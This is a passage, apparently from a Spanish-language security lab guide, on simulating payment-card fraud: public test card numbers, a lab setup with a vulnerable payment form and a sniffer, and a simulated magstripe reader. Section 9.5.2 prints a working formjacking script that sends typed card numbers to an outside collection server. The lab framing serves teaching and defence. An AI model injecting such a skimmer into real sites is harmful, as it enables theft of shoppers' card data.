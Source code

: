 
## 9.3. Generación de Datos Simulados

Para entrenar detección de fraude se usan tarjetas de prueba provistas por las redes de pago:

Ejemplo – Visa y MasterCard de prueba:

```plaintext
Visa: 4111 1111 1111 1111 | 12/25 | 123
MasterCard: 5555 5555 5555 4444 | 11/26 | 456
```

Estas **no** funcionan en entornos reales, solo en pasarelas de prueba.

---

## 9.4. Escenario de Laboratorio

* **Servidor web vulnerable** con formulario de pago.
* **Sniffer** (Wireshark) para capturar datos en tránsito.
* **Base de datos simulada** con tarjetas cifradas.
* **Herramientas**: `pcap` de tráfico, scripts de extracción y validación.

---

## 9.5. Skimming en Laboratorio

### 9.5.1. Skimmer físico simulado

En laboratorio, un **lector USB de tarjetas** puede configurarse para capturar datos magnéticos simulados:

```bash
sudo apt install libmagstripe-tools
magread /dev/usb/lp0
```

### 9.5.2. Skimming web (formjacking)

Script malicioso inyectado en un formulario vulnerable:

```javascript
document.getElementById("card").addEventListener("input", function() {
    fetch("http://192.168.56.10/collect", {
        method: "POST",
        body: JSON.stringify({card:this.value})
    });
});
```

---

## 9.6. Captura en Tránsito (Man-in-the-Middle)

